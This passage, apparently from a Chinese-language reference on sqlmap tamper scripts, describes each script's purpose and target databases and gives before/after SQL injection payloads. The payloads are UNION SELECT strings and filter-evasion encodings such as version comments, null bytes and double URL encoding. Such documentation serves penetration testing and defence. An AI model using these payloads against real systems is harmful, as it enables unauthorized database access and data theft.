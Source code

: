 适用数据库：MySQL
测试通过数据库：MySQL 4.0.18, 5.1.56, 5.5.11
作用：注释绕过
使用脚本前：`tamper('1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,100,114,117,58))#')`
使用脚本后：`1/*!UNION*//*!ALL*//*!SELECT*//*!NULL*/,/*!NULL*/, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER()/*!AS*//*!CHAR*/),CHAR(32)),CHAR(58,100,114,117,58))#`

#### **halfversionedmorekeywords.py**

适用数据库：MySQL < 5.1
测试通过数据库：MySQL 4.0.18/5.0.22
作用：在每个关键字前添加mysql版本注释
使用脚本前：`tamper("value' UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND 'QDWa'='QDWa")`
使用脚本后：`value'/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)),/*!0NULL,/*!0NULL#/*!0AND 'QDWa'='QDWa`

#### **space2morehash.py**

适用数据库：MySQL >= 5.1.13
测试通过数据库：MySQL 5.1.41
作用：将空格替换为`#`，并添加一个随机字符串和换行符
使用脚本前：`tamper('1 AND 9227=9227')`
使用脚本后：`1%23ngNvzqu%0AAND%23nVNaVoPYeva%0A%23lujYFWfv%0A9227=9227`

#### **apostrophenullencode.py**

适用数据库：ALL
作用：用非法双字节Unicode字符替换单引号
使用脚本前：`tamper("1 AND '1'='1")`
使用脚本后：`1 AND %00%271%00%27=%00%271`

#### **appendnullbyte.py**

适用数据库：ALL
作用：在有效载荷的结束位置加载null字节字符编码
使用脚本前：`tamper('1 AND 1=1')`
使用脚本后：`1 AND 1=1%00`

#### **chardoubleencode.py**

适用数据库：ALL
作用：对给定的payload全部字符使用双重url编码（不处理已经编码的字符）
使用脚本前：`tamper('SELECT FIELD FROM%20TABLE')`
使用脚本后：`%2553%2545%254C%2545%2543%2554%2520%2546%2549%2545%254C%2544%2520%2546%2552%254F%254D%2520%2554%2541%2542%254C%2545`

#### **randomcomments.py**

适用数据库：ALL
作用：用注释符分割sql关键字
使用脚本前：`tamper('INSERT')`
使用脚本后：`I/**/N/**/SERT`

#### **symboliclogical.py**

适用数据库：ALL
作用：AND OR 替换为 && ||
使用脚本前：`tamper('1' AND 1=1')`
使用脚本后：`1' && 1=1`

#### **unmagicquotes.py**

适用数据库：ALL
作用：`宽字节绕过`